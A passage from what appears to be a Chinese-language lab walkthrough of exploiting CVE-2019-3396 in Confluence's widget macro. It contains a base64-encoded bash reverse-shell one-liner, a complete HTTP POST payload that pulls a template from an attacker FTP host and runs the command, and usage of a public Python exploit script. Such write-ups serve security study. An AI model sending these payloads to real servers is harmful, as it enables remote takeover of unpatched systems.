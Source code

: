 由于vulhub的该漏洞环境中没有python所以无法反弹，若能成功反弹如下图（图自[jas502n](https://github.com/jas502n/CVE-2019-3396)）：

![image](https://user-images.githubusercontent.com/84888757/172698186-505b4dcb-8552-4b6f-a0b3-3b8abde1290c.png)

## 4.3.2 bash一句话反弹shell
1、命令编码
使用base64编码来绕后java的机制，将command值换为base64的payload
编码网址：https://www.qqxiuzi.cn/bianma/base64.htm

```
# 反弹shell 
bash -i >& /dev/tcp/攻击方ip/port 0>&1 
# base64 后的命令 
bash -c {echo,payload的base64编码}|{base64,-d}|{bash,-i}
```

2、发送数据包
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.210.206:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7 
Referer: http://192.168.210.206:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 303

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"ftp://192.168.210.156:8888/r.vm","command":"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMC4xNTYvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"}}}
```

![image](https://user-images.githubusercontent.com/84888757/172699132-f71c48e3-caea-48b4-8e3b-9eb3c1ee0e59.png)

3、成功接收shell

![image](https://user-images.githubusercontent.com/84888757/172699267-79833875-16d8-4d8f-804b-797ad5e429a7.png)

## 4.4 命令执行 - 使用python 脚本
- 🔗 [cve-2019-3396.py @jas502n](https://github.com/jas502n/CVE-2019-3396/blob/master/cve-2019-3396.py)

`python2 cve-2019-3396.py 目标url "要执行的命令"`

（需根据实际情况修改pyftp部分）

